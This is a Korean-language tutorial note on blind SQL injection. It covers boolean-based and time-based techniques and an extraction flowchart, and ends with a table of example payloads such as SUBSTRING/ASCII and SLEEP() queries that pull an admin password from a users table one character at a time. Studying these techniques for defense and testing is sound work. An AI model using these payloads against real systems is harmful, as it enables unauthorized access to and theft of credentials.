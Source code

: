 # 블라인드 SQL 인젝션

`Blind SQL Injection`은 공격자가 **쿼리의 직접적인 결과나 오류 메시지를 받을 수 없는 상황**에서, 응용 프로그램의 응답 차이를 기반으로 **데이터베이스 정보를 유추하는 공격 방식**이다.  
일반적인 SQL Injection과는 달리 명확한 피드백이 없기 때문에 더 느리고 반복적인 작업이 필요하지만, **치명적인 정보 탈취가 가능한 정교한 인젝션 기법**이다.

애플리케이션이 오류를 숨기거나 사용자에게 쿼리 결과를 직접적으로 보여주지 않도록 처리하더라도, 응답 시간이나 콘텐츠의 미묘한 차이를 분석함으로써 공격자는 내부 데이터를 유추할 수 있다.

---

## 주요 기법

| 기법              | 설명                                                                 | 작동 방식                                                   |
|------------------|----------------------------------------------------------------------|------------------------------------------------------------|
| **불리언 기반**   | 조건이 `참`일 경우와 `거짓`일 경우 애플리케이션의 응답 차이를 비교   | 페이지 콘텐츠의 유무, 메시지 유무, 리디렉션 차이 등으로 판별 |
| **시간 기반**     | 조건이 `참`일 때 의도적으로 **응답 지연**을 발생시킴                 | 응답 시간 지연 유무를 통해 조건 만족 여부를 판단            |

- **불리언 기반 Blind SQLi**
    - 조건이 참일 때와 거짓일 때의 응답 메시지 또는 출력 결과의 차이를 이용한다.
    - 예시:  
      ```sql
      ' AND (SELECT COUNT(*) FROM users WHERE username='admin') > 0 --
      ```

- **시간 기반 Blind SQLi**
    - `SLEEP()` 함수 등을 사용하여 조건이 참일 때만 **지연**시키는 방식이다.
    - 예시:
      ```sql
      ' AND IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a', SLEEP(5), 0) --
      ```

---

## 공격 절차 및 예시 흐름

1. **주입 지점 탐지**
2. **참/거짓 조건 확인**
3. **데이터 열거**
4. **문자 단위 추출**
5. **자동화 도구 활용**

---

## Boolean 기반 추출 순서도

```mermaid
graph TD
    A[입력값 변조 후 응답 변화 확인] --> B{응답이 다름?}
    B -- 예 --> C[조건: 1=1, 1=2로 테스트]
    C --> D{차이 확인됨?}
    D -- 예 --> E[문자 추출용 SUBSTRING(), ASCII() 사용]
    E --> F[한 글자씩 조건 비교]
    F --> G[데이터 조각 완성]
    D -- 아니오 --> H[응답 방식 변경 필요]
    B -- 아니오 --> I[다른 파라미터 또는 위치 탐색]
```

---

## 자주 쓰이는 Boolean 기반 페이로드 예시

| 목적                         | 페이로드 예시 |
|------------------------------|----------------|
| 참 조건 확인                 | `' OR 1=1 --` |
| 거짓 조건 확인               | `' OR 1=2 --` |
| 특정 유저 존재 확인          | `' AND (SELECT COUNT(*) FROM users WHERE username='admin') > 0 --` |
| 비밀번호 한 글자 추출 (a)    | `' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a' --` |
| 비밀번호 첫 글자 ASCII 확인  | `' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))=97 --` |

---

## 정리

> `Blind SQL Injection`은 출력 결과 없이도 공격이 가능한 은밀하고 효과적인 인젝션 기법이다.

> 응답 변화 또는 시간 지연을 기반으로 조건의 참/거짓을 유추하여 **데이터를 하나씩 추출**해 낼 수 있으며, **자동화 도구의 활용과 수동 분석의 병행이 핵심**이다.

> 복잡하고 방어가 잘 된 시스템일수록 이 방식은 더욱 유용하게 사용될 수 있으며, 웹 보안의 핵심 위협 요소 중 하나이다.

## 참고 사이트
>[NetSPI](https://sqlwiki.netspi.com/injectionTypes/blindBased/#mysql "Blind 기반 SQL 인젝션")

>[Oracle](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet "Oracle SQL Injection Cheat Sheet")

<hr />